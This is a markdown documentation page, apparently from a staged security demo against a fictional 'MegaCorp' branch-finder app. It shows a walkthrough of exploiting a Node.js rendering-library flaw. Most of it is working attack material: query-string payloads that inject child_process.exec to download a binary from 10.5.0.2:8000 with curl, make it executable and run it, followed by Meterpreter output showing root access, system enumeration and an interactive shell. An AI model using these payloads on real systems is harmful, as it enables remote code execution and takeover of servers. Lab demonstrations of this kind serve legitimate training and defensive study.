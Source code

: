 ```yaml
---
id: execute_hack
title: Executing the hack
sidebar_label: Execution
---
```


## The vulnerability

One of the applications of MegaCorp, the branch finder application, has a vulnerability in a library that it uses to render the results.

... more details on the vuln.

## Executing the payload

The first step is to get the payload on the target machine.

```shell
┌──(root💀kali)-[/]
└─$ curl "search-http.ingress.shipyard.run:9090?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27curl+10.5.0.2:8000/payload+-o+payload%27)-%27"

<div>String: x,y'-require('child_process').exec('curl 10.5.0.2:8000/payload -o payload')-'</div><div> Mobile version </div>
```

In order to run our payload, we have to make it executable.

```shell
┌──(root💀kali)-[/]
└─$ curl "search-http.ingress.shipyard.run:9090?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27chmod+777+payload%27)-%27"

<div>String: x,y'-require('child_process').exec('chmod 777 payload')-'</div><div> Mobile version </div>
```

Now we can execute the payload.

```shell
┌──(root💀kali)-[/]
└─$ curl "search-http.ingress.shipyard.run:9090?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27./payload%27)-%27"

<div>String: x,y'-require('child_process').exec('./payload')-'</div><div> Mobile version </div>
```

As soon as the payload gets executed, we see a session show up and a meterpreter session is automatically opened on the target host.

```shell
[*] http://0.0.0.0:9999 handling request from 10.5.0.4; (UUID: w26bw3o1) Redirecting stageless connection from /h7sUeWnwyAwFZgNnWs3kzgCzN70KnX64Dz_mC1nzQlzyq-Uk9uMBpMDwp9GU6yZ9 with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://0.0.0.0:9999 handling request from 10.5.0.4; (UUID: w26bw3o1) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (10.5.0.2:9999 -> 10.5.0.4:43191) at 2020-11-11 13:05:45 +0000

meterpreter >
```

## Examine the remote host

Now that we have access to the remote host, lets see what kind of information we can get.
First lets take a look at where we landed on the host.

```shell
meterpreter > pwd

/usr/src/app
```

And as which user we have opened a session.

```shell
meterpreter > getuid

Server username: root @ search-586495dcd8-rqjk9 (uid=0, gid=0, euid=0, egid=0)
```

We can take a look at all the running processes.

```shell
meterpreter > ps

Process List
============

 PID   PPID  Name     Arch    User  Path
 ---   ----  ----     ----    ----  ----
 1     0     npm      x86_64  root  /usr/local/bin
 17    1     sh       x86_64  root  /bin
 18    17    node     x86_64  root  /usr/local/bin
 28    0     bash     x86_64  root  /bin
 1158  18    sh       x86_64  root  /bin
 1159  1158  payload  x86     root  /usr/src/app
```

And even gather additional information by executing post modules.

```shell
meterpreter > run post/linux/gather/enum_system

[+] Info:
[+]     Debian GNU/Linux 9
[+]     Linux search-586495dcd8-rqjk9 4.19.104-microsoft-standard #1 SMP Wed Feb 19 06:37:35 UTC 2020 x86_64 GNU/Linux
[+]     Module running as "root" user
[*] Linux version stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_215236.txt
[*] User accounts stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_085161.txt
[*] Installed Packages stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_996275.txt
[*] Running Services stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_708083.txt
[*] Cron jobs stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_579733.txt
[*] Disk info stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_231217.txt
[*] Logfiles stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_252829.txt
[*] Setuid/setgid files stored in /root/.msf4/loot/20201111131258_default_1_linux.enum.syste_496087.txt
[*] CPU Vulnerabilities stored in /root/.msf4/loot/20201111131300_default_1_linux.enum.syste_470958.txt
```

## Get a shell on the remote host

But what we really want is a shell on the remote host.

```shell
meterpreter > shell

Process 1165 created.
Channel 1 created.
```

Eventhough we do not see a command prompt, we do still have a full shell available to us.
Lets test this by listing the files in the current directory.

```shell
ls -lha

total 1.2M
drwxr-xr-x  1 root root 4.0K Nov 11 12:54 .
drwxr-xr-x  1 root root 4.0K Mar 15  2019 ..
drwxr-xr-x  2 root root 4.0K Mar 15  2019 .circleci
drwxr-xr-x  8 root root 4.0K Mar 15  2019 .git
-rw-r--r--  1 root root   82 Mar 15  2019 Dockerfile
-rw-r--r--  1 root root 3.3K Mar 15  2019 README.md
-rw-r--r--  1 root root  639 Mar 15  2019 app.js
drwxr-xr-x 53 root root 4.0K Mar 15  2019 node_modules
-rw-r--r--  1 root root  165 Mar 15  2019 package.json
-rwxrwxrwx  1 root root 1.1M Nov 11 13:05 payload
drwxr-xr-x  2 root root 4.0K Mar 15  2019 templates
-rw-r--r--  1 root root  14K Mar 15  2019 yarn.lock
```

Now lets abuse our new found access.
